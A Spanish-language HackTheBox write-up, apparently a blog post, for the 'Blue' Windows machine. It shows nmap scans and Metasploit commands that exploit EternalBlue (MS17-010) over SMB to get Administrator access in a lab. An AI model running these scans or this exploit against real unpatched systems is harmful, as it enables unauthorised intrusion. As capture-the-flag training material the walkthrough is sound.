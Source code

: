 ```yaml
---
layout      : post
title       : "Blue - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/Blue-HackTheBox/Blue.webp
optimized_image : assets/images/HTB/Blue-HackTheBox/Blue.webp
category    : [ htb ]
tags        : [ Windows ]
description : Tenemos una máquina nivel EASY Windows, en la que explotaremos la vulnerabilidad eternalblue del protocolo SMB, de forma automatizada con metasploit y no tendremos que escalar privilegios ya el propio exploit nos dará acceso al usuario Administrador.
---
```


Tenemos una máquina nivel EASY Windows, en la que explotaremos la vulnerabilidad eternalblue del protocolo SMB, de forma automatizada con metasploit y no tendremos que escalar privilegios ya el propio exploit nos dará acceso al usuario Administrador.

Write en video aquí --> [https://www.youtube.com/watch?v=WhwsoEtVrGo](https://www.youtube.com/watch?v=WhwsoEtVrGo)

![](/assets/images/HTB/Blue-HackTheBox/Blue2.webp)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

![](/assets/images/HTB/Blue-HackTheBox/Blue-rating.webp)

***


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Explotación](#explotacion).
    * [Metasploit](#metasploit).


***

# Reconocimiento [#](reconocimiento) {#reconocimiento}

***

## Reconocimiento de Puertos [🔍](#recon-nmap) {#recon-nmap}

Lanzamos el escaneo de puertos.

```nmap
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Lanzamos un escaneo mas detallado para saber que servicios y versiones se ejecutan en los puertos existentes que hay abiertos.

```nmap
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-16T20:10:20
|_  start_date: 2022-10-16T19:29:57
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-10-16T21:10:17+01:00
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s
```

Lanzamos escaneo de vulnerabilidades usando un script que ya viene implementado en nmap, el script es `vuln`

```bash
# Comando para lanzar el script
-------------------------------
nmap -p145,139,445 -n -Pn --script=vuln 10.10.10.40
```

![](/assets/images/HTB/Blue-HackTheBox/nmap-vuln.webp)

Veremos que el sistema es vulnerable a smb-vuln-ms17-010 o eternalblue.

Asique procedo a explotar la vulnerabilidad.

![](/assets/images/HTB/Blue-HackTheBox/gif.gif)

# Explotación [#](explotación) {#explotacion}

***

## Metasploit [💣](#metasploit) {#metasploit}

Explotaré la vulnerabilidad a través de metasploit.

Buscando encuentro varios exploit, asique elijo el siguiente:

> `exploit/windows/smb/ms17_010_eternalblue`

![](/assets/images/HTB/Blue-HackTheBox/msf1.webp)

Configuro los parámetros del exploit:

```bash
# Ip de la máquina víctima
set RHOST 10.10.10.40
----------------------------
# Ip de mi máquina local (mi interfaz de la vpn)
set LHOST tun0
------------------------------------------------
# Lanzamos el exploit
exploit
---------------------
```

![](/assets/images/HTB/Blue-HackTheBox/msf2.webp)

Como podemos ver ya me he convertido en el usuario Administrador, por lo tanto ya podemos leer la flag user.txt y root.txt.

![](/assets/images/HTB/Blue-HackTheBox/flags.webp)

![](/assets/images/HTB/Blue-HackTheBox/fin.gif)

![](/assets/images/HTB/Blue-HackTheBox/share.webp)



